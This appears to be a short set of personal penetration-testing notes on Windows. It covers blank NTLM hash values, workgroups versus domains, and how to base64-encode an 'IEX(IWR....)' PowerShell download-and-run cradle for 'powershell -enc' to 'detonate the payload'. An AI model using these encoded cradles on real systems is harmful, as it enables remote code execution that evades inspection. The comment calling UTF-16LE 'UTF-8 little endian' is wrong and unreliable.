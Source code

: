# facts on windows
sort these as the field manual develops

## Hashing on windows
> NTLM hashes
```
LM:NTLM						; lan man : new technology lan manager
aad3...:31d6...				; blank hashes
```
> explanation of above
```
LM is no longer used but is often required for interacting with services; Anything can be put here!
```





## default windows encoding
> default encoding
```
UTF-16le 			; UTF-8 little endian

NECESSARY FOR POWERSHELL ENCODED COMMANDS
```

> necessary for PS encoded commands; detonating the payload
```sh
powershell -enc 'BASE64_ENCODED_COMMAND'
```

> encoding the payload
```sh
echo -n 'IEX(IWR....)' | iconv -t UTF-16LE | base64 -w 0

explanation:
	echo is the ps command we doing, new object, invoke-web, w.e.
	-t ; to code
	-w 0 ; all on 1 line
```




## Active Directory / Windows Policies

- default domain is 'WORKGROUP' or 'HOSTNAME'

> difference between WORKGROUP and DOMAIN
```
WORKGROUP is a LAN of peer to peer machines
	microsoft term for any network of peer2peer machines
	emphasis on PEER; no computer controls others
	each computer has its own user accounts
	all devices are part of same subnet
	limited to 10-20 devices
DOMAIN is a network of objects that share the same Active Directory Databases
	accounts are DOMAIN wide, any device part of domain will acknowledge the account (provided policy)
	there is a domain controler DC, acts as a server to control member objects of the AD
	devices can be on differing subnets but be part of same DOMAIN
	100-1000 devices
```

